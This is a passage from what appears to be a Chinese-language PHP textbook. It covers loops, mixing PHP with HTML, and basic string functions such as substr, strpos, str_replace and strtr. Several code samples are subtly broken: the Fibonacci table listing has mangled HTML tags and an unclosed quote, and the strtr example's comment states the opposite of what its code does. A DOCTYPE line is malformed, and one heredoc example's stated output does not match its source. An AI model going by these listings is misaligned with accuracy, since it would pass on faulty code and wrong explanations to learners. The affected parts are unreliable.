脚本中的下一个循环同样是一个 do...while 循环，它构成了模拟的主体。循环内的第一段代码使用决策逻辑来模拟信鸽的归巢本能。它只需检查信鸽的 x 坐标是大于还是小于家园方块的 x 坐标，然后适当调整信鸽的 x 坐标。y 坐标的调整方式相同：

```
// Move the pigeon closer to home
if ( $pigeonX < $homeX )
	$pigeonX++;
elseif ( $pigeonX > $homeX )
	$pigeonX--;

if ( $pigeonY < $homeY )
	$pigeonY++;
elseif ( $pigeonY > $homeY )
	$pigeonY--;
```

请注意，如果信鸽的 x 或 y 坐标与对应的家园坐标匹配，则无需调整信鸽的坐标。因此，没有 else 代码分支。

循环内的最后一段代码用于显示当前地图。这段代码本身包含两个嵌套的 for 循环，遍历地图上的所有 x 和 y 坐标。对于地图中的每个方块，如果方块匹配家园位置的坐标，代码显示 + 符号；如果方块匹配信鸽的坐标，则显示 % 符号。否则，它显示一个点（.）。在每个方块之后，它会添加一个空格字符（除非是行上的最后一个方块）：

```
// Display the current map
echo '<div class="map" style="width: ' . $mapSize . 'em;"><pre>';
for ( $y = 0; $y < $mapSize; $y++ ) {
	for ( $x = 0; $x < $mapSize; $x++ ) {
		if ( $x == $homeX && $y == $homeY ) {
			echo '<span class="home">+</span>'; // Home
		} elseif ( $x == $pigeonX && $y == $pigeonY ) {
			echo '<span class="pigeon">%</span>'; // Pigeon
		} else {
			echo '<span class="empty">.</span>'; // Empty square
		}
		echo ( $x != $mapSize - 1 ) ? " " : "";
	}
	echo "\n";
}
echo "</pre></div>\n";
```

最后，你到达主 do...while 循环的末尾。如你所料，当信鸽坐标与家园坐标匹配时，循环结束：

```
} while ( $pigeonX != $homeX || $pigeonY != $homeY );
```

此外，脚本使用了多种 CSS 样式（嵌入在页面的 head 元素中）来改善地图的外观。

## 将决策与循环与 HTML 混合使用

在第 2 章中，你学习了可以将 PHP 嵌入 HTML 网页，而且，本书中的大多数示例都使用这种技术，在 PHP 代码周围包裹 XHTML 页面页头和页脚。

你还学习了可以通过使用 <?php ... ?> 标签，在显示 HTML 标记和执行 PHP 代码之间切换。在决策和循环中，这一功能尤其有用，因为你可以使用 PHP 控制网页显示哪些部分（以及如何显示）。

下面是一个简单的示例：

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Fibonacci sequence</title>
<link rel="stylesheet" type="text/css" href="common.css" />
<style type="text/css">
th { text-align: left; background-color: #999; }
th, td { padding: 0.4em; }
tr.alt td { background: #ddd; }
</style>
</head>
<body>
<h2>Fibonacci sequence</h2>
<table cellspacing="0" border="0" style="width: 20em; border: 1px solid #666;">
<tr>
<th>Sequence #</th>
<th>Value</th>
</tr>
<tr>
<td>&lt;?sub 0< /sub&gt;
<td>0</td>
</tr>
<tr class="alt">
<td>&lt;?sub 1< /sub&gt;
<td>1</td>
</tr>
<?php
$iterations = 10;

$num1 = 0;
$num2 = 1;

for ( $i=2; $i <= $iterations; $i++ )
{
    $sum = $num1 + $num2;
    $num1 = $num2;
    $num2 = $sum;
?>
        <tr><?php if ( $i % 2 != 0 ) echo ' class="alt" ?>
        <td><?php echo $i?></td>
        <td><?php echo $num2?><td>
        </tr>
<?php
}
?>
</table>
</body>
</html>
```

尝试将此文件保存为 fibonacci.php，放在你的文档根文件夹中，并在浏览器中运行该脚本。图 4-5 显示了结果。



图 4-5

这段代码显示斐波那契数列的前 10 个数字。首先显示 XHTML 页面页头和表格页头。然后，一个 for 循环生成每个斐波那契数字，每次循环时跳出到 HTML 以显示包含该数字的表格行。请注意，脚本多次使用 `<?php ... ?>` 标签在 HTML 标记和 PHP 代码之间切换。交替的表格行是通过 head 元素中的 CSS 类与嵌入在表格行标记中的 if 决策结合实现的。

你可以看到，从循环内部或作为决策的结果，输出整个 HTML 块（在本例中为表格行）是多么容易。

## 总结

在本章中，你探讨了 PHP（或任何编程语言）的两个关键概念：决策和循环。决策允许你根据表达式的值选择运行一段代码，包括：

- if 语句，用于做简单的“二选一”决策
- else 和 elseif 语句，用于具有多种结果的决策
- switch 语句，用于根据表达式的值运行代码块
- ?（三元）运算符，用于编写紧凑的 if...else 风格决策

循环允许你反复运行同一段代码，直到满足某个条件。你学习了：

- while 循环，在循环开始时测试条件
- do...while 循环，在循环结束时测试条件
- for 循环，允许你编写整洁的“计数”循环

你还学习了其他与循环相关的语句，包括用于退出循环的 break 语句和用于跳过当前循环迭代的 continue 语句。最后，你探索了嵌套循环，并了解了 PHP 的一项强大功能：将决策和循环语句与 HTML 标记混合使用。

在下一章中，你将深入了解 PHP 中的字符串以及如何操作它们。不过，在阅读之前，请尝试以下两个练习，以巩固你对决策和循环的理解。一如既往，你可以在附录 A 中找到练习的参考答案。

## 练习

- 1. 编写一个脚本，以步长 1 从 1 数到 10。对于每个数字，显示该数字是奇数还是偶数，并且如果该数字是质数，还要显示一条消息。在 HTML 表格中显示这些信息。

- 2. 修改归巢信鸽模拟器，在同一张地图上模拟两只不同的信鸽，它们都飞向同一个家园点。当两只信鸽都回到家时，模拟结束。

## 字符串

你在前面的第 3 章中简要了解过字符串的概念。在编程术语中，字符串只是一系列字符。例如，"hello"、"how are you?"、"123" 和 "!@#$%" 这些值都是有效的字符串值。

从根本上说，Web 基于字符串数据。HTML 和 XHTML 页面由纯文本字符串组成，HTTP 头信息也是如此（第 16 章将详细介绍），URL 自然也是。你可以想象，这意味着 PHP 等 Web 编程语言特别适合处理字符串。事实上，PHP 有近 100 个不同的函数专门用于操作字符串。

例如，你可以使用 PHP 的字符串函数来：

- 在字符串中查找文本
- 将字符串中的一些文本替换为另一段文本
- 格式化字符串，使其更易于阅读或处理
- 使用各种流行的编码格式对字符串进行编码和解码

除此之外，你还可以使用正则表达式处理字符串（你将在第 18 章中了解正则表达式）。

在本章中，你将了解 PHP 中字符串的基础知识——如何创建字符串值和变量，以及如何访问字符串中的字符。然后，你将探索 PHP 的字符串函数。本章并不旨在涵盖 PHP 中的每一个字符串函数；这个主题本身就足以写一整本书。相反，你将学习日常情况下最有用（也最常用）的函数。

> 如果你想获取 PHP 字符串函数的完整列表，可以在在线 PHP 手册中查阅：www.php.net/manual/en/ref.strings.php。


## 创建和访问字符串

如第 3 章所述，创建字符串变量只需将字符串字面量赋值给新变量名即可：

```
$myString = 'hello';
```

在此示例中，字符串字面量（`hello`）用单引号（`'`）括起来。你也可以使用双引号（`"`），如下所示：

```
$myString = "hello";
```

单引号和双引号的工作方式不同。如果将字符串用单引号括起来，PHP 会原样使用该字符串。但是，双引号提供了几个额外功能：

- 字符串中的任何变量名都会被解析并替换为变量的值
- 可以通过转义字符在字符串中包含特殊字符

下面是一些示例，以说明这些差异：

```
$myString = 'world';
echo "Hello, $myString!<br />"; // Displays "Hello, world!"
echo 'Hello, $myString!<br />'; // Displays "Hello, $myString!"
echo "<pre>Hi\tthere!</pre>"; // Displays "Hi      there!"
echo '<pre>Hi\tthere!</pre>'; // Displays "Hi\tthere!"
```

在“Hello, world!”示例中，请注意使用双引号会导致 $myString 变量名被替换为 $myString 的实际值。但是，使用单引号时，文本 $myString 会原样保留在字符串中。

在“Hi there!”示例中，转义制表符字符（\t）包含在字符串字面量中。当使用双引号时，\t 会被替换为实际的制表符字符；因此输出中 Hi 和 there! 之间有很大间隔。用单引号括起来的同一字符串会导致 \t 字符原样传递。

以下是可在双引号字符串中使用的更常见转义序列列表：

| Sequence | Meaning |
| :--- | :--- |
| \\n | 换行符（ASCII 10） |
| \\r | 回车符（ASCII 13） |
| \\t | 水平制表符（ASCII 9） |
| \\v | 垂直制表符（ASCII 11） |
| \\f | 换页符（ASCII 12） |
| \\\\ | 反斜杠（与转义序列的开头相反） |
| \\$ | $ 符号（与变量名的开头相反） |
| \\" | 双引号（与标记字符串结尾的双引号相反） |

在单引号字符串中，实际上可以使用几个转义序列。使用 \' 在字符串中包含原样单引号。如果你碰巧想要在单引号字符串中包含原样字符 \'，请使用 \\\' —— 即转义的反斜杠后跟转义的单引号。

顺便说一句，在 PHP 中指定多行字符串很容易。为此，只需在引号之间的字符串字面量中插入换行符即可：

```
$myString = "
I stay too long; but here my Father comes:
A double blessing is a double grace;
Occasion smiles vpon a second leaue
";
```

## 在字符串中包含更复杂的表达式

虽然可以通过在双引号字符串中简单地包含变量名（前面加 $ 符号）来插入变量的值，但有时事情会变得更复杂。考虑以下情况：

```
$favoriteAnimal = "cat";
echo "My favorite animals are $favoriteAnimals";
```

此代码存在歧义；PHP 应该插入 $favoriteAnimal 变量的值后跟 "s" 字符吗？还是说应该插入（不存在的）$favoriteAnimals 变量的值？事实上，PHP 试图执行后者，结果如下：

My favorite animals are

幸运的是，你可以使用花括号绕过此问题，如下所示：

```
$favoriteAnimal = "cat";
echo "My favorite animals are {$favoriteAnimal}s";
```

这会产生预期的结果：

My favorite animals are cats

你也可以在 $ 符号后放置左花括号，效果相同：

```
echo "My favorite animals are ${favoriteAnimal}s";
```

重要的是，你可以使用花括号将变量名与字符串的其余部分区分开来。

你可以使用此花括号语法插入更复杂的变量值，例如数组元素值和对象属性。（你将在接下来的几章中探索数组和对象。）只需确保整个表达式用花括号括起来即可：

```
$myArray["age"] = 34;
echo "My age is {$myArray["age"]}"; // Displays "My age is 34"
```

当然，如果你不想使用花括号，可以始终通过将值连接在一起来创建字符串：

```
$myArray["age"] = 34;
echo "My age is " . $myArray["age"]; // Displays "My age is 34"
```

## 使用你自己的分隔符

虽然引号在大多数情况下都是字符串字面量的好分隔符，但有时能够使用自己的分隔符很有帮助。例如，如果你需要指定一个包含许多单引号和双引号的长字符串，在字符串中转义许多引号会很繁琐。

你可以通过两种方式使用自己的分隔符：heredoc 语法和 nowdoc 语法。Heredoc 相当于使用双引号：变量名会被替换为变量值，并且可以使用转义序列来表示特殊字符。Nowdoc 的工作方式与单引号相同：不发生变量替换或转义；字符串完全原样使用。

Heredoc 语法的工作原理如下：

```
$myString = <<<DELIMITER
(insert string here)
DELIMITER;
```

DELIMITER 是你想要用作分隔符的文本字符串。它只能包含字母、数字和下划线，并且必须以字母或下划线开头。传统上，heredoc 分隔符写作大写，就像常量一样。

Nowdoc 语法类似；唯一的区别是分隔符用单引号括起来：

```
$myString = <<<'DELIMITER'
(insert string here)
DELIMITER;
```

下面是 heredoc 语法在操作中的示例：

```
$religion = 'Hebrew';

$myString = <<<END_TEXT
"I am a $religion,' he cries - and then - 'I fear the Lord the God of
Heaven who hath made the sea and the dry land!.'"
END_TEXT;

echo "<pre>$myString</pre>";
```

此示例显示以下输出：

```
"'I am a Hebrew,' he cries - and then - 'I fear the Lord the God of
Heaven who hath made the sea and the dry land!.'"
```

下面是使用 nowdoc 语法而不是 heredoc 语法的同一示例：

```
$religion = 'Hebrew';

$myString = <<<'END_TEXT'
'I am a $religion,' he cries - and then - 'I fear the Lord the God of
Heaven who hath made the sea and the dry land!'
END_TEXT;

echo "<pre>$myString</pre>";
```

此示例的输出如下（请注意，这次没有替换 $religion 变量名）：

```
'I am a $religion,' he cries - and then - 'I fear the Lord the God of
Heaven who hath made the sea and the dry land!'
```

Nowdoc 语法是在 PHP 5.3.0 中引入的。

## 创建字符串的其他方法

你不必将字符串字面量赋值来创建字符串变量；你可以赋予任何表达式的结果：

```
$myString = $yourString;
$myString = "how " . "are " . "you?";
$myString = ( $x > 100 ) ? "Big number" : "Small number";
```

此外，许多 PHP 函数返回字符串值，然后可以将其赋值给变量（或在浏览器中显示）。例如，file_get_contents()（你将在第 11 章中了解）将文件内容读入字符串。

## 查找字符串的长度

一旦有了字符串变量，就可以使用 strlen() 函数查找其长度。该函数将字符串值作为参数，并返回字符串中的字符数。例如：

```
$myString = "hello";
echo strlen( $myString ) . "<br />"; // Displays 5
echo strlen( "goodbye" ) . "<br />"; // Displays 7
```

strlen() 通常很有用，如果你想遍历字符串中的所有字符，或者如果你想验证字符串以确保其长度正确。例如，以下代码确保字符串变量 $year 长度为 4 个字符：

```
if ( strlen( $year ) != 4 ) {
    echo "The year needs to contain 4 characters. Please try again.";
} else {
    // Process the year
}


另一个有用的相关函数是 `str_word_count()`，它返回字符串中的单词数。例如：

```php
echo str_word_count( "Hello, world!" ); // Displays 2
```

## 访问字符串中的字符

你可能在想如何访问字符串中的单个字符。PHP 让这变得很容易。要访问字符串中特定位置，或 _索引_，的字符，请使用：

```php
$character = $string[index];
```

换句话说，你在字符串变量名后的方括号中放置索引。字符串索引从 0 开始，因此字符串中的第一个字符索引为 0，第二个字符索引为 1，以此类推。你可以通过这种方式读取和更改字符。以下是一些示例：

```php
$myString = "Hello, world!";
echo $myString[0] . "<br />"; // Displays 'H'
echo $myString[7] . "<br />"; // Displays 'w'
$myString[12] = '?';
echo $myString . "<br />"; // Displays 'Hello, world?'
```

如果需要从字符串中提取一系列字符，可以使用 PHP 的 `substr()` 函数。该函数接受以下参数：

- 要从中提取字符的字符串
- 开始提取字符的位置。如果使用负数，`substr()` 将从字符串末尾开始倒数
- 要提取的字符数。如果使用负数，`substr()` 会从字符串末尾跳过那么多字符，而不是提取。此参数为可选；如果省略，`substr()` 将从起始位置提取到字符串末尾

以下是一些展示如何使用 `substr()` 的示例：

```php
$myString = "Hello, world!";
echo substr( $myString, 0, 5 ) . "<br />"; // Displays 'Hello'
echo substr( $myString, 7 ) . "<br />"; // Displays 'world!'
echo substr( $myString, -1 ) . "<br />"; // Displays '!'
echo substr( $myString, -5, -1 ) . "<br />"; // Displays 'orld'
```

你不能使用 `substr()` 修改字符串中的字符。如果需要更改字符串中的字符，请改用 `substr_replace()`。本函数将在本章后面介绍。

## 搜索字符串

了解一段文本是否包含在另一段文本中通常很有用。PHP 提供了几个字符串函数，让你可以在一个字符串中搜索另一个字符串：

- strstr() 告诉你搜索文本是否在字符串中
- strpos() 和 strrpos() 分别返回搜索文本首次和最后出现的索引位置
- substr_count() 告诉你搜索文本在字符串中出现的次数
- strpbrk() 在字符串中搜索字符列表中的任意字符

### 使用 strstr() 搜索字符串

如果你只想知道某段文本是否出现在字符串中，请使用 strstr()。它接受两个参数：要搜索的字符串和搜索文本。如果找到文本，strstr() 返回从找到的文本开始到字符串结束的部分。如果未找到文本，它返回 false。例如：

```php
$myString = "Hello, world!";
echo strstr( $myString, "wor" ) . "<br />"; // Displays 'world!'
echo ( strstr( $myString, "xyz" ) ? "Yes" : "No" ) . "<br />"; // Displays 'No'
```

从 PHP 5.3 开始，你还可以传递一个可选的第三个布尔参数。默认值为 false。如果传入 true，strstr() 则返回从字符串开始到找到的文本之前字符的部分：

```php
$myString = "Hello, world!";
echo strstr( $myString, "wor", true ); // Displays 'Hello, '
```

### 使用 strpos() 和 strrpos() 定位文本

要找出一段文本在另一字符串中的确切位置，请使用 strpos()。此函数接受与 strstr() 相同的两个参数：要搜索的字符串和要查找的搜索文本。如果找到文本，strpos() 返回文本在字符串中首个字符的索引。如果未找到，strpos() 返回 false：

```php
$myString = "Hello, world!";
echo strpos( $myString, "wor" ); // Displays '7'
echo strpos( $myString, "xyz" ); // Displays '' (false)
```

当搜索的文本出现在字符串开头时，存在一个陷阱。在这种情况下，strpos() 返回 0（找到的文本的首个字符索引），但如果不小心，很容易将其误认为是 false 的返回值。例如，以下代码将错误地显示 "Not found"：

```php
$myString = "Hello, world!";
if ( !strpos( $myString, "Hel" ) ) echo "Not found";
```

因此，如果你要检查的是 false 返回值，需要显式测试。以下代码可以正确工作：

```php
$myString = "Hello, world!";
if ( strpos( $myString, "Hel" ) === false ) echo "Not found";
```

strpos() 可以接受一个可选的第三个参数：字符串中开始搜索的索引位置。以下是一个示例：

```php
$myString = "Hello, world!";
echo strpos( $myString, "o" ) . "<br />"; // Displays '4'
echo strpos( $myString, "o", 5 ) . "<br />"; // Displays '8'
```

你可以使用这个第三个参数，结合 strpos() 返回匹配文本位置的事实，来反复查找字符串中搜索文本的所有出现——例如：

```php
$myString = "Hello, world!";
$pos = 0;
while ( ( $pos = strpos( $myString, "l", $pos ) ) !== false ) {
    echo "The letter 'l' was found at position: $pos<br />" ;
    $pos++;
}
```

此代码产生图 5-1 所示的输出。



图 5-1

strpos() 有一个姊妹函数 strrpos()，功能基本相同；唯一的区别是 strrpos() 查找字符串中的最后一个匹配项，而不是第一个：

```php
$myString = "Hello, world!";
echo strpos( $myString, "o" ) . "<br />" ; // Displays '4'
echo strrpos( $myString, "o" ) . "<br />" ; // Displays '8'
```

与 strpos() 类似，你可以传递一个可选的第三个参数，指示开始搜索的索引位置。如果此索引位置为负数，strrpos() 将从字符串末尾开始向前数那么多字符，而不是从开头开始。

### 使用 substr_count() 查找出现次数

偶尔你可能需要知道某段文本在字符串中出现的次数。例如，如果你正在编写一个简单的搜索引擎，可以在文本字符串中搜索关键字，以查看该文本对关键字的相关性；关键字出现的次数越多，文本相关的可能性就越大。

你可以使用 `strpos()` 和循环轻松找出出现次数，但 PHP 像大多数其他事情一样，为你提供了一个完成这项工作的函数：`substr_count()`。要使用它，只需传递要搜索的字符串和要查找的文本，函数将返回该文本在字符串中被找到的次数。例如：

```php
$myString = "I say, nay, nay, and thrice nay!";
echo substr_count( $myString, "nay" ); // Displays '3'
```

你还可以传递一个可选的第三个参数来指定开始搜索的索引位置，以及一个可选的第四个参数来指示函数在放弃前应搜索多少个字符。以下是使用这些第三个和第四个参数的一些示例：

```php
$myString = "I say, nay, nay, and thrice nay!";
echo substr_count( $myString, "nay", 9 ) . "<br />"; // Displays '2'
echo substr_count( $myString, "nay", 9, 6 ) . "<br />"; // Displays '1'
```

### 使用 strpbrk() 搜索字符集

如果你需要找出字符串是否包含某个字符集中的任意一个字符，该怎么办？例如，你可能希望确保提交的表单字段出于安全原因不包含某些字符。PHP 为你提供了一个名为 `strpbrk()` 的函数，让你可以轻松执行此类搜索。它接受两个参数：要搜索的字符串和包含要查找的字符列表的字符串。该函数返回从第一个匹配字符到字符串末尾的部分。如果字符串中未找到该字符集中的任何字符，`strpbrk()` 返回 false。

以下是一些示例：

```php
$myString = "Hello, world!";
echo strpbrk( $myString, "abcdef" ); // Displays 'ello, world!'
echo strpbrk( $myString, "xyz" ); // Displays '' (false)
```

```php
$username = "matt@example.com";
if ( strpbrk( $username, "@!" ) ) echo "@ and ! are not allowed in usernames";
```

### 替换字符串中的文本

除了能够在较大字符串中搜索文本外，你还可以用不同的文本替换字符串的部分内容。本节讨论了三个用于替换文本的有用 PHP 函数：

- str_replace() 替换目标字符串中搜索文本的所有出现
- substr_replace() 将目标字符串的指定部分替换为另一个字符串
- strtr() 将目标字符串中的某些字符替换为其他字符

### 使用 str_replace() 替换所有出现

str_replace() 让你将指定字符串的所有出现替换为新字符串。它相当于在文字处理器中使用“全部替换”选项。


该函数接受三个参数：要搜索的字符串、替换字符串以及要搜索的目标字符串。它返回原始字符串的副本，其中所有搜索字符串的实例都已替换为替换字符串。示例如下：

```
$myString = "It was the best of times, it was the worst of times,";

// Displays "It was the best of bananas, it was the worst of bananas,"
echo str_replace( "times", "bananas", $myString );
```

如果要了解搜索字符串被替换了多少次，请将变量作为可选的第四个参数传入。函数运行后，该变量将保存替换次数：

```
$myString = "It was the best of times, it was the worst of times,";

// Displays "It was the best of bananas, it was the worst of bananas,"
echo str_replace( "times", "bananas", $myString, $num ) . "<br>";

// Displays "The text was replaced 2 times."
echo "The text was replaced $num times.<br>";
```

可以为第一个和第二个参数传入字符串数组，以一次搜索并替换多个字符串。也可以将字符串数组作为第三个参数传入，在这种情况下，str_replace() 会替换数组中所有字符串中的文本，并返回一个修改后的字符串数组。这是执行全局搜索和替换的一种非常强大的方式。有关数组的所有内容将在下一章中介绍。

## 使用 substr_replace() 替换字符串的一部分

与 str_replace() 搜索特定文本字符串以进行替换不同，substr_replace() 替换目标字符串的特定部分。使用时，需传入三个参数：要处理的字符串、替换文本以及开始替换的字符串索引位置。substr_replace() 将从起始位置到字符串末尾的所有字符替换为替换文本，并将修改后的字符串作为副本返回（原始字符串保持不变）。

此示例展示了 substr_replace() 的工作原理：

```
$myString = "It was the best of times, it was the worst of times,";

// Displays "It was the bananas"
echo substr_replace( $myString, "bananas", 11 ) . "<br />";
```

可以看到，前面的代码已将从索引 11 开始到末尾的所有原始文本替换为替换文本（"bananas"）。

如果不想替换从起始位置到字符串末尾的所有文本，可以指定一个可选的第四个参数，包含要替换的字符数：

```
$myString = "It was the best of times, it was the worst of times,";

// Displays "It was the best of bananas, it was the worst of times,"
echo substr_replace( $myString, "bananas", 19, 5 ) . "<br />";
```

传入负值作为第四个参数，可替换字符串末尾指定数量的字符：

```
$myString = "It was the best of times, it was the worst of times,";

// Displays "It was the best of bananas the worst of times,"
echo substr_replace( $myString, "bananas", 19, -20 ) . "<br />";
```

也可以传入零值，将替换文本插入字符串，而非替换字符：

```
$myString = "It was the best of times, it was the worst of times,";

// Displays "It really was the best of times, it was the worst of times,"
echo substr_replace( $myString, "really ", 3, 0 ) . "<br />";
```

### 尝试：对齐文本

可以使用目前学到的字符串函数，编写一个脚本来对齐文本行。*对齐*文本是指在列内对齐文本，使文本与左、右边距齐平。

以下是该脚本。将其保存为 `justification.php`，放在文档根目录中：

```html
<!DOCTYPE html PUBLIC "--//W3C//DTD XHTML 1.0 Strict//EN"
 "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
<head>
<title>Justifying Lines of Text</title>
<link rel="stylesheet" type="text/css" href="common.css" />
</head>
<body>
<h1>Justifying Lines of Text</h1>

<?php
// The text to justify

$myText = <<<END_TEXT
But think not that this famous town has
only harpooneers, cannibals, and
bumpkins to show her visitors. Not at
all. Still New Bedford is a queer place.
Had it not been for us whalemen, that
tract of land would this day perhaps
have been in as howling condition as the
coast of Labrador.
END_TEXT;

$myText = str_replace( "\r\n", "\n", $myText );

$lineLength = 40; // The desired line length
$myTextJustified = "";
$numLines = substr_count( $myText, "\n" );
$startOfLine = 0;

// Move through each line in turn

for ( $i=0; $i < $numLines; $i++ ) {
    $originalLineLength = strpos( $myText, "\n", $startOfLine ) - $startOfLine;
    $justifiedLine = substr( $myText, $startOfLine, $originalLineLength );
    $justifiedLineLength = $originalLineLength;

// Keep adding spaces between words until the desired
// line length is reached

while ( $i < $numLines - 1 && $justifiedLineLength < $lineLength ) {
    for ( $j=0; $j < $justifiedLineLength; $j++ ) {
        if ( $justifiedLineLength < $lineLength && $justifiedLine[$j] == " " ) {
            $justifiedLine = substr_replace( $justifiedLine, " ", $j, 0 );
            $justifiedLineLength++;
            $j++;
        }
    }
}

// Add the justified line to the string and move to the
// start of the next line

$myTextJustified .= "$justifiedLine\n";
$startOfLine += $originalLineLength + 1;
}
?>
<h2>Original text:</h2>
<pre><?php echo $myText ?><pre>
<h2>Justified text:</h2>
<pre><?php echo $myTextJustified ?><pre>
</body>
</html>
```

现在在 Web 浏览器中访问其 URL 来运行脚本。你应当会看到类似图 5-2 的页面。第一块文本是原始的未对齐文本，右侧边缘参差不齐。第二块文本是对齐后的版本，左、右边距均已对齐。



图 5-2

### 工作原理

脚本首先显示 XHTML 页面标题，然后定义一个名为 $myText 的变量，其中包含要对齐的文本。文本使用 heredoc 语法包含在脚本中。（文本末尾的额外空行可确保文本的最后一行末尾有换行符；这是脚本所使用算法所必需的。）

定义 $myText 后，脚本使用 str_replace() 将任何 Windows 换行符（回车符后跟换行符）转换为 UNIX 换行符（单独的换行符）。如果脚本文件是在 Windows 机器上保存的，可能会出现 Windows 换行符，这会让对齐算法感到困惑（该算法期望每行只以换行符结尾）：

```
$myText = str_replace( "\r\n", "\n", $myText );
```

接下来，脚本设置几个其他变量：

- $lineLength：希望每行文本的长度。尝试将其更改为不同的值，看看会发生什么
- $myTextJustified：将包含最终对齐后的文本
- $numLines：包含文本行数，通过使用 substr_count() 函数统计文本中的换行符数量来计算
- $startOfLine：指向 $myText 中当前正在处理的行的起始索引位置

初始化这些变量后，即可处理文本。为此，脚本设置了一个 for 循环，用于遍历文本的每一行：

```
for ( $i=0; $i < $numLines; $i++ ) {
```

在循环中，脚本首先计算原始未对齐行的长度。方法是使用 strpos() 查找当前行起始位置之后的下一个换行符的索引位置，然后用该索引位置减去行的起始索引位置：

```
$originalLineLength = strpos( $myText, "\n", $startOfLine ) - $startOfLine;
```

脚本知道行长度后，就可以轻松地将整行复制到新变量 $justifiedLine 中，该变量将保存行的对齐版本。另一个变量 $justifiedLineLength 用于跟踪对齐行的长度：

```
$justifiedLine = substr( $myText, $startOfLine, $originalLineLength );
$justifiedLineLength = $originalLineLength;
```

下面的代码块构成了对齐算法的核心。脚本使用 while 循环反复运行该算法，直到行被填充到所需长度。请注意，while 循环条件还会跳过文本的最后一行，因为你不希望对齐最后一行：

```
while ( $i < $numLines - 1 && $justifiedLineLength < $lineLength ) {
```

在 while 循环中，一个 for 循环会逐字符遍历 $justifiedLine。如果当前字符是空格，且行长度仍小于所需长度，脚本会使用 substr_replace() 在该位置插入一个额外的空格字符。随后，它会递增 $justifiedLineLength 以跟踪当前长度，并递增循环计数器 $j，以跳过刚刚创建的额外空格：

```
for ( $j=0; $j < $justifiedLineLength; $j++ ) {
    if ( $justifiedLineLength < $lineLength && $justifiedLine[$j] == " " ) {
        $justifiedLine = substr_replace( $justifiedLine, " ", $j, 0 );
        $justifiedLineLength++;
        $j++;
    }
}
```

这两个循环的最终结果是，脚本从左到右遍历当前行，在每个单词之间添加额外空格，直到达到所需行长度。如果在行末时仍未达到所需长度，算法会再次从左到右开始，添加更多空格。这样单词间距尽可能均匀，从而产生平滑的对齐效果。


一旦达到所需的行长度，两端对齐的行就会被追加到 `$myTextJustified`（在行尾添加一个换行符），并且 `$startOfLine` 指针会移动到下一行的开头（在索引上加 1 以跳过换行符）：

```
$myTextJustified .= "$justifiedLine\n";
$startOfLine += $originalLineLength + 1;
```

最后，原始文本和两端对齐的文本块会在页面中显示：

```
?>
<h2>Original text:</h2>
<pre><?php echo $myText ?></pre>
<h2>Justified text:</h2>
<pre><?php echo $myTextJustified ?></pre>
</body>
</html>
```

## 使用 strtr() 转换字符

一个相当常见的需求——尤其是在 Web 编程中——是将字符串中的某些字符替换为其他字符。例如，你可能希望通过将空格替换为 +（加号）符号、将撇号替换为 -（连字符）符号，使字符串变得“URL 友好”。

strtr() 函数正是为此而设。该函数接受三个参数：要处理的字符串、包含要转换的字符列表的字符串、以及包含用于替换的字符的字符串。函数随后返回转换后的字符串副本。因此，你可以编写如下简单脚本来生成“URL 友好”字符串：

```
$myString = "Here's a little string";
// Displays "Here-s+a+little+string"
echo strtr( $myString, " '", "-+" ) . "<br/> ";
```

如果你需要将字符串从一种字符集转换为另一种字符集，strtr() 尤其有用，因为只需传递一两个字符串，就可以轻松将数百个字符映射到新字符集中的等效字符。

你也可以使用 strtr() 将字符串替换为字符串，而不是将字符替换为字符。为此，只需传递两个参数：要处理的字符串，以及一个键/值对数组，其中每个键是要查找的字符串，每个对应的值是用于替换的字符串。有关数组的更多内容将在下一章介绍。

## 处理大写和小写

大多数西方字符集都有大写和小写字母的概念。PHP 提供了多种方式在大写和小写之间转换字符串。

要将字符串转换为全小写，请使用 strtolower()。该函数接受要转换的字符串，并返回转换后的字符串副本：

